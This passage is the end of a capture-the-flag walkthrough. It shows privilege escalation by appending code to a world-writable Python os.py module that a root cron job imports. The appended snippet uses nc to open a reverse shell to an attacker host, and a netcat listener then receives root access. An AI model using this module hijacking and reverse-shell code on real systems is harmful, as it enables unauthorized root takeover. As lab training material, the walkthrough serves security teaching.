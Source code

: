```bash
```

The first directory where Python looks for modules to import is the /usr/lib/python3.9 directory let's move to this directory and check if we have write permissions on any module used in the script.
```bash
david@system:/usr/lib/python3.9$ ls -l | grep "os\|pathlib"
-rw-rw-rw- 1 root root  39063 Apr  2  2022 os.py
-rw-r--r-- 1 root root  21780 Feb 28  2021 _osx_support.py
-rw-r--r-- 1 root root  52704 Feb 28  2021 pathlib.py
-rw-r--r-- 1 root root  15627 Feb 28  2021 posixpath.py
david@system:/usr/lib/python3.9$ 
```

Our user has written permission on the os.py file which is the file loaded when the os module is imported. We can modify this file by adding a code snippet at the end of the file which will be executed when the module is loaded. Let's add this Python code in os.py that will give us a reverse shell the next time the cron job is executed.
```python
def shell():
    import subprocess
    subprocess.call("nc" + " 10.0.2.9 8080 -e /bin/bash", shell=True)
shell()
```
*NB: This module has an execution flow necessary for Python, so for us not to destroy this flow it is advised to add our extra code at the end of the file.*

Next, we need to start a listener on our attack host to catch the shell.
```bash
┌──(pentester㉿kali)-[~/System]
└─$nc -lvnp 8080
listening on [any] 8080 ...
connect to [10.0.2.16] from (UNKNOWN) [10.0.2.14] 35324
whoami
root
ls
root.txt
```
Great, we successfully obtained a root shell. We can use this access to read the second flag on the machine as demonstrated above.

## Conclusion
Congratulations! In this walkthrough, you practiced exploiting an XXE vulnerability to read local files on a system. Finally, you exploited a privilege misconfiguration to hijack a Python script running as a cron job by modifying a module imported by that script. This machine was designed to demonstrate how improper coding practices and granting excessive privileges to users can affect the security posture of an organisation. Thank you for following up on this walkthrough.
 

